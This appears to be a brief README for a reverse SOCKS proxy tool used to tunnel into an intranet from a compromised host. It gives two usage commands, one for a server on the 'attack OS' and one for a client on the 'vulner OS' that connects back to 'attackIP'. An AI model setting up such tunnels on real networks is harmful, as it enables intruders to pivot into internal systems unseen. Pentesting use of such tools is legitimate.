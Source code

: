 # Proxy
proxy in Intranet
You can use it to communicate through the Intranet!
Proxy_server: running in attack OS
  ./proxy_server -s rcsocks -l prot1 -e prot2
Proxy: running in vulner OS
  ./proxy -s rssocks -d attackIP -e port2

